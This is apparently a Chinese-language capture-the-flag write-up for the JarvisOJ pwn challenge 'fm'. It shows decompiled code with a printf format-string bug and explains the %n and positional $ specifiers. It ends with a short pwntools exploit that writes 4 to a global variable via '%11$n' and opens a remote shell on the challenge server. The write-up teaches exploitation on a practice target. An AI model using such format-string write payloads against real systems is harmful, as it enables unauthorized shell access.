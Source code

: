 # jarvisoj--pwn--fm

由于昨天的格式化字符串题目对我来说不太懂，今天做题简单的

ida

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+2Ch] [ebp-5Ch]
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(&buf, 0, 0x50u);
  read(0, &buf, 0x50u);
  printf(&buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

明显格式字符串漏洞，只需把x变为4，就可以getshell

```c++
.data:0804A02C                 public x
.data:0804A02C x               dd 3                    ; DATA XREF: main+65↑r
.data:0804A02C                                         ; main+7C↑r
.data:0804A02C _data           ends
```

x所在地址

## 原理学习

当格式化字符串中出现%n时，会把%n前已经打印出过字符的个数作为一个值写到对应参数（或地址）上

例子 printf("2333%n",&a);               a=4

格式化符的特殊用法：偏移量标志符$

 用法是：例如%5$n，意味在拓展这个%n对应的内容时，参数偏移量为5，即从栈中的格式化串指针处，往高地址偏移5个参数，再做参数向串中的拓展。

exp：

```python
from pwn import *

r = remote("pwn2.jarvisoj.com",9895)
payload = p32(0x804a02c)+'%11$n'
r.sendline(payload)
r.interactive()
```

